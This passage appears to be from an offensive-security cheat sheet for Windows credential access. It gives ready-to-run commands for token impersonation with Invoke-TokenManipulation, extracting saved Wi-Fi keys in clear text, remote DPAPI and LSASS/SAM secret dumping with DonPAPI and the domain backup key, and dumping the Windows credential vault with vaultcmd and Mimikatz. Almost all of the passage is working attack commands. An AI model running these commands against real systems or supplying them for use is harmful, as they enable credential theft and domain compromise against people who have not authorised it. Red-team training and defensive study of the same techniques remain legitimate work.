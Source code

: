 #### Start news process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

## Get the wifi password
### Get saved wifi networks
```
netsh wlan show profiles
```

#### Get key from saved wifi network
```
netsh wlan show profiles name=<NAME> key=clear
```

## DPAPI
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++

### DonPAPI
- https://github.com/login-securite/DonPAPI
- DonPAPI can remotely read lsass,sam,dpapi etc. Requires local admin access.
- Place creds in file and use ```-credz``` flag.
- Also possible to set a list of hosts!

#### Read creds with credz.txt
```
python3 DonPAPI.py -credz credz.txt <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Retrieve backup key with DA
```
dpapi.py backupkeys --export -t <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Read all creds with backup key
```
python3 DonPAPI.py -pvk domain_backupkey.pvk <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

### Credential manager
#### Dump vault for current user
```
run vaultcmd /listcreds:"Windows Credentials" /all
Invoke-Mimikatz -Command '"vault::list"'
```
#### Check for blobs for user
- Can be in Roaming or Local for all commands!
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials -Hidden
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials -Hidden
```
